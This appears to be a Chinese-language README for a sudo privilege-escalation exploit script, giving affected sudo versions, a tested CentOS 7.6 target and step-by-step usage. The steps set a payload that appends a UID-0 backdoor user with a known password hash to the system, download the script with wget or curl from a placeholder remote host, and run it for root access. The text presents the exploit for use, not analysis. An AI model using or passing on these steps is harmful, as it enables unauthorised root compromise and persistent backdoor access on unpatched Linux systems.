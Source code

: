 影响版本：
```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1

可执行sudo -V查看sudo版本
```
测试版本：
```
CentOS Linux release 7.6.1810 (Core)
```
先决条件：
```
1、目标中有python解释器（CentOS默认即存在）
2、目标能出网或者能将文件上传到目标
```
具体用法：
```
1、修改exp_sudo.py中下面这一行
APPEND_CONTENT = b"bb:$1$84DoAMTs$ruLlLQlSCtlMm9Y17oHPn1:0:0:gg:/root:/bin/bash\n";
此处的用户名/密码：bb/shenlan1，可在CentOS7.6中创建用户后拷贝到此处替换密码
2、wget -O /tmp/exp_sudo.py http://xx.xx.xx.xx:8000/exp_sudo.py 或者 curl -o /tmp/exp_sudo.py http://xx.xx.xx.xx:8000/exp_sudo.py
3、python /tmp/exp_sudo.py
```

参考连接：  
Centos7/Centos8 sudo 提权脚本：https://www.o2oxy.cn/3490.html  
CentOS 7系统利用suid提权获取Root Shell：https://www.freebuf.com/articles/system/244627.html  